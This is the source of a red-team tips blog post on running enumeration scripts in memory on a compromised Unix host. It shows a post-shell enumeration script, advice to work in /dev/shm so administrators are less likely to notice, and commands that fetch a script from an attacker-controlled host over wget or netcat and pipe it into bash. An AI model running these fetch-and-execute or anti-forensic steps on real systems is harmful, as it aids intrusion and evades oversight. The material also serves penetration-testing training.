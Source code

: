 ```yaml
---
description: >-
  How to execute a downloaded script on a remote machine in memory
title: Execute remote scripts from memory                    # Add title of the machine here
date: 2021-04-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, script, enumeration, linux, macos]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


![Hack responsibly disclaimer](/assets/markups/1-hack-responsibly.svg)

## Execute script in memory

Scenario: You have just gotten a shiny new reverse shell on a Unix-based machine and you want to do some quick enumeration.  You do not want to leave any files on the target system for the system administrators to notice, so you decide to run your enumeration scripts in memory.  How do you do this, you ask?

```bash
#!/bin/sh
echo [+] Distribution and kernel version
cat /etc/issue
uname -a

echo [+] Mounted filesystems
mount -l

echo [+] Network configuration
ip -a
cat /etc/hosts
arp

echo [+] Development tools availability
which gcc
which g++
which python
which python3

echo [+] Installed packages (Debian systems only)
dpkg -l

echo [+] Services
netstat -tulnpe

echo [+] Processes
ps -aux

echo [+] Scheduled jobs
find /etc/cron* -ls 2>/dev/null
find /var/spool/cron* -ls 2>/dev/null

echo [+] Readable files in /etc 
find /etc -user `id -u` -perm -u=r \
 -o -group `id -g` -perm -g=r \
 -o -perm -o=r \
 -ls 2>/dev/null 

echo [+] SUID and GUID writable files
find / -o -group `id -g` -perm -g=w -perm -u=s \
 -o -perm -o=w -perm -u=s \
 -o -perm -o=w -perm -g=s \
 -ls 2>/dev/null 

echo [+] SUID and GUID files
find / -type f -perm -u=s -o -type f -perm -g=s \
 -ls 2>/dev/null

echo [+] Writable files outside HOME
mount -l find / -path “$HOME” -prune -o -path “/proc” -prune -o \( ! -type l \) \( -user `id -u` -perm -u=w  -o -group `id -g` -perm -g=w  -o -perm -o=w \) -ls 2>/dev/null
```

Say you have written the simple enumeration script above that you have saved to your machine, but you want to execute it on the victim's machine. Or, you have downloaded one of the more popular enumeration scripts such as [LinEnum.sh](https://github.com/rebootuser/LinEnum) or [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS.)

## /dev/shm

It is recommended to use the directory `/dev/shm` to work out of to avoid writing files to the disk.  This is a virtual directory that only exists in memory.  Any files left behind here will be wiped when the system shuts down or restarts.

```bash
cd /dev/shm
```

In addition to using the virtual directory `/dev/shm` to write files to, you can also execute scripts in memory directly by using the methods below.

## Using Wget

Using the web-get program `wget` to download a script from an attacker-controlled web server is an excellent way to get remote script execution in memory.  If you do not have a web server to hosts your scripts, you can create one on the fly by using Python3's `http.server` module.

1. First, host the file using a Python HTTP server from your attacking platform of choice (Kali, Parrot, etc) so it is accessible remotely.

```bash
python3 -m http.server $port
```

You can specify a port by replacing the variable `$port` above.  Note: if you wish to use one of the "well-known" ports such as 80 or 443, you must run the command with `sudo`.  If you leave off the `$port`, it will default to port 8000.

2. Next, you can use the command `wget` to fetch your script from your HTTP server.  By piping this command into `bash` you can execute the script directly from memory.

```bash
wget -O - http://$attackerIP:$port/$script | bash
```

| Parameter | Description |
| :--- | :--- |
| `-O -` | This parameter tells `wget` to send the contents it downloads to `stdout`. |
| `$attackerIP` | This is your attacking machine's IP (must be reachable from the victim's machine). |
| `$port` | The port you specified on your HTTP server |
| `$script` | This will be the name of the script to fetch from your machine. |

## Using Netcat

This same scenario can also be accomplished by using the popular network transfer tool netcat (`nc`) in the same way you would create a reverse shell. 

1. From your attack platform, start a netcat listener by piping in the contents of your script using `cat`.

```bash
cat $script | nc -nvlp $port
```

With netcat you must specify a port to listen on.  

2. Next, use netcat on the victim machine to reach back to your attack platform.  When it connects, your computer will send the contents of the script to the victim.  You can execute this in memory by piping this output to `bash`.

```bash
nc $attackerIP $port | bash
```

## Other Examples

If you have any other examples of methods of executing remote scripts directly in memory, or have any other fun or useful tips or tricks, feel free to contact me on Github at https://github.com/zweilosec or on social media!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>

